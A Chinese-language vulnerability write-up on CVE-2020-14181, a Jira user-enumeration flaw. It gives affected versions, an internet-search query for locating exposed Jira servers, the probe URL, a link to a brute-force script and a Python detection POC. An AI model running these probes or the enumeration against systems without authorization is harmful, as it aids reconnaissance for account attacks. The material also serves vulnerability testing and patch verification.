

# Atlassian Jira ViewUserHover.jspa 用户信息泄露漏洞 CVE-2020-14181

## 漏洞描述

Jira存在一个未授权访问漏洞，未授权的用户可以通过一个api接口直接查询到某用户名的存在情况，该接口不同于CVE-2019-8446和CVE-2019-3403的接口，是一个新的接口。如果Jira暴露在公网中，未授权用户就可以直接访问该接口爆破出潜在的用户名。

## 漏洞影响

```
Atlassian Jira < 7.13.6
Atlassian Jira 8.0.0 - 8.5.7
Atlassian Jira 8.6.0 - 8.12.0
```

## 网络测绘

```
app="Jira"
```

## 漏洞复现

打开主界面，注意标识中的 Jira版本是否在影响中




使用POC对用户名是否存在进行验证

```
/secure/ViewUserHover.jspa?username=admin
```

用户名如果不存在会返回


存在的用户名会返回


不存在漏洞会返回


## 漏洞POC

POC只用于探测是否存在漏洞

爆破可使用:  https://github.com/Rival420/CVE-2020-14181/blob/main/cve-2020-1481.py

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34mVersion: Atlassian Jira < 7.13.6                                   \033[0m')
    print('+  \033[34mVersion: Atlassian Jira 8.0.0 - 8.5.7                              \033[0m')
    print('+  \033[34mVersion: Atlassian Jira 8.6.0 - 8.12.0                             \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/secure/ViewUserHover.jspa?username=peiqipeiqipeiqi"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        version = re.findall(r'<span id="footer-build-information">\((.*?)#', response.text)[0]
        print("\033[32m[o] 目标 Jira 版本为{} \033[0m".format(version))
        if "peiqipeiqipeiqi" in response.text:
            print("\033[32m[o] 目标{}存在漏洞 \033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

